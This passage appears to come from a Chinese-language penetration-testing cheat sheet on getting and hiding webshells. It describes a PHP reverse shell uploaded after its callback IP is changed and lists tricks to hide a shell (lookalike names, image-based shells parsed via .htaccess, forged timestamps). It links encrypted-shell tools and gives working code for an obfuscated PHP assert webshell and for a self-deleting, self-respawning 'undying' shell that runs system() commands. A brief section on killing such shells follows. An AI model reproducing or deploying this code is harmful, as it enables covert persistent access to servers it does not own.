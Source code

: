 PHP 交互式反弹Shell，修改反弹IP后上传到目标访问一下即可。

## 获取Webshell

**隐藏WebShell**

> 1、仿照已存在的文件起名字，隐藏在深层目录， 创建…目录隐藏shell
> 2、利用静态文件，比如图片马然后利用 .htaccess 进行解析
> 3、修改WebShell时间戳为同目录下其它文件相同的时间

**快速应用**

直接上冰蝎加密shell，或哥斯拉内存马（基于tomcat）
冰蝎：https://github.com/rebeyond/Behinder
哥斯拉：https://github.com/BeichenDream/Godzilla

**PHP-Webshell**

文件免杀（Apache、Nginx特性）cmd

```php
<? assert(implode(reset(get_defined_vars())));	//返回由所有已定义变量所组成的数组 

Use age：cmd.php?a=system(whoami);

适用于PHP < 7.1 ，因为在PHP7.1之后assert被弃用了、7.2 create_function被弃用了
```

**内存马**

```php
//nodie_shell.php
<?php
	set_time_limit(0);			//设置脚本最大执行时间,0 即为无时间限制
	ignore_user_abort(true);	//设置与客户机断开不终止脚本的执行
	unlink(__FILE__);			//删除文件自身
	$file = '/var/www/html/.shell.php';	
	$code = '<?php if(md5($_POST["pass"])=="cdd7b7420654eb16c1e1b748d5b7c5b8"){@system($_POST[a]);}?>';
	while (1) {
		file_put_contents($file, $code);	//写shell文件
		system('touch -m -d "2014-10-31 13:50:11" .shell.php');		//修改时间戳
		usleep(1000);			//以指定的微秒数延缓程序的执行
	}
?>
```

**杀死PHP不死马**

```bash
1、高权限，重启服务
service apache2 restart
service php restart

2、低权限，杀掉所有进程
kill -9 -1
killall apache2
```
